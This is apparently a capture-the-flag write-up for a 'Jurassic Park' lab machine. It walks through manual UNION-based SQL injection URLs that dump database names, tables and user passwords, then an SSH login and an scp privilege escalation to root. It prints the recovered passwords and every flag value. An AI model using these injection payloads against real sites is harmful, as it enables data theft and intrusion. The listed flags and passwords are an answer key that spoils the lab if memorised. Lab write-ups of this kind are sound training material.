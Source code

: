 *Jurassic Park CTF*

So first I took a quick look around the website then started using Gobuster, sqlmap, nmap to try to gather as much info as possible. While looking, I found this page here: 

![image](https://github.com/user-attachments/assets/35f65a92-43a7-4890-a335-10a387bcd877)

As you can see there is this shop. Clicking on the first link in the far left gets you to the link: http://10.10.169.164/item.php?id=3 Which gives the possibility that it is vulnerable to SQL injection.

So after more digging I tried changing the id number in case of an IDOR vulnerability and then I find this: http://10.10.169.164/item.php?id=5 

![image](https://github.com/user-attachments/assets/0874346c-2135-4da5-8b7f-c4f009cc8100)

It shows that there is a page that isn't supposed to be public. It displays an SQL words that get filtered. This is good to know such that we bypass it and get what we need.

Sadly after sometime, sqlmap wasn't able to get the database name. This means we have to do it ourselves. 

For the Gobuster there are few directories that we got: 

![image](https://github.com/user-attachments/assets/83a67ad3-fc98-4ece-9a45-63258e799889)

Assets:

![image](https://github.com/user-attachments/assets/ba407133-283a-44b1-ae3b-4204956480da)

robots.txt: 

![image](https://github.com/user-attachments/assets/af833937-e31e-40cc-9941-e4355ffaedf6)

delete: 

![image](https://github.com/user-attachments/assets/5bce914e-d56c-407e-ae59-99c7cafd6489)

Delete seems intresting giving us a clue that the database is running on MySQL which means to find the database name we can use "Database()" command.

Another thing we now need is to figure out the number of columns. To do this, we can keep adding NULL until it shows an output.

http://10.10.169.164/item.php?id=5%20union%20select%20NULL,Database(),NULL,NULL,NULL

We end up getting an output: 

![image](https://github.com/user-attachments/assets/93b3e42c-b537-4e84-80c8-88a8a81d2ac6)

So we now know that the database name is park and there are 5 columns.

![image](https://github.com/user-attachments/assets/a292fa22-33f2-4446-a791-f212e6f79ff1)

To get the version we can swap Database() with Version(): http://10.10.169.164/item.php?id=5%20union%20select%20NULL,Version(),NULL,NULL,NULL

![image](https://github.com/user-attachments/assets/445a9e17-e187-4d97-854b-13d474f7060b)

Meaning the version is Ubuntu 16.04

![image](https://github.com/user-attachments/assets/b738fb7c-6447-42fd-8a94-609442661a0a)

Now to get the tables in the database we use the following: 10.10.169.164/item.php?id=5 UNION SELECT NULL, group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE table_schema="park"

Which results in a users and items table: 

![image](https://github.com/user-attachments/assets/2c1212f1-4665-421a-b583-2433dd24a38c)

We now need to know the columns in users that are there so we get: [10.10.169.164/item.php?id=5%20 UNION SELECT NULL, column_name, NULL, NULL, NULL%20 FROM information_schema.columns WHERE table_name="users"](http://10.10.169.164/item.php?id=5%20%20UNION%20SELECT%20NULL,%20group_concat(column_name),%20NULL,%20NULL,%20NULL%20%20FROM%20information_schema.columns%20WHERE%20table_name=%22users%22)

![image](https://github.com/user-attachments/assets/b2f154b5-6ef8-4f37-befc-cb54ffb1a80f)

We get a lot of columns but we are intrested in username and password so lets get them, but hey, there is a filter on the username so we can't use it so we have to only get the passwords which will result in: http://10.10.169.164/item.php?id=5%20UNION%20SELECT%20NULL,NULL,group_concat(id),group_concat(password),NULL%20FROM%20users

![image](https://github.com/user-attachments/assets/70a790a6-6ddf-4ad4-b64e-00e5c1b24d2f)

Possible Passwords: D0nt3ATM3,ih8dinos
But what is the username...
Rememeber in the page there was a clue about the username. Someone called Dennis. But here comes another question. How do we login since there isn't any login page. The answer is from nmap.

![image](https://github.com/user-attachments/assets/8d6645fd-18dc-444f-a39a-79d7471cfec2)

Nmap scan: 

![image](https://github.com/user-attachments/assets/7eda4761-65a5-4b54-8302-5665e598e03f)

We see that there is an SSH port open that we can use. 

Using SSH: ssh dennis@10.10.169.164

![image](https://github.com/user-attachments/assets/2ea3852d-44ba-4b05-a8ec-7b05fb08bda1)

We find the first flag so fast using ls:

![image](https://github.com/user-attachments/assets/3d8c63c7-b91f-4dcb-bf78-1f97d6e3c0f3)

flag1: b89f2d69c56b9981ac92dd267f

When I try to run test.sh I get something about flag5 (foreshadowing?...): 

![image](https://github.com/user-attachments/assets/504eccb7-f4ca-42f2-91a8-c2d39a4d5fea)

After some digging, I used the command "history" and found the third flag: 

![image](https://github.com/user-attachments/assets/a28757a6-0ed8-4eed-8a28-b71e57b9f193)

flag3: b4973bbc9053807856ec815db25fb3f1

In the history there is something about a user called Ben: 

![image](https://github.com/user-attachments/assets/31e74bf6-9a06-4dbb-ae93-9dae6d07c39d)

There is something about SCP and when I did some searching, I found out that I can do privilage escalation: https://gtfobins.github.io/gtfobins/scp/

![image](https://github.com/user-attachments/assets/478f6579-f54b-4c87-95e8-d7d29c1ace2d)

After applying, we are now root!

![image](https://github.com/user-attachments/assets/0998ba51-d344-40ee-88ac-184a295cdefc)

We can now use this command to find where flag5.txt is: find / -name flag5.txt 2> /dev/null

![image](https://github.com/user-attachments/assets/9ce8a12f-caeb-409d-b764-f6a68d7f1ef3)

flag5: 2a7074e491fcacc7eeba97808dc5e2ec

Still have to search for second flag...

I found the second flag after using: cat .viminfo

![image](https://github.com/user-attachments/assets/479df587-c079-43bc-ae47-d01f3e80dcd1)

flag2: 96ccd6b429be8c9a4b501c7a0b117b0a

![image](https://github.com/user-attachments/assets/e91c3dd0-5e8c-4c25-b4fb-73b1ce7e9dfb)

Thank you!
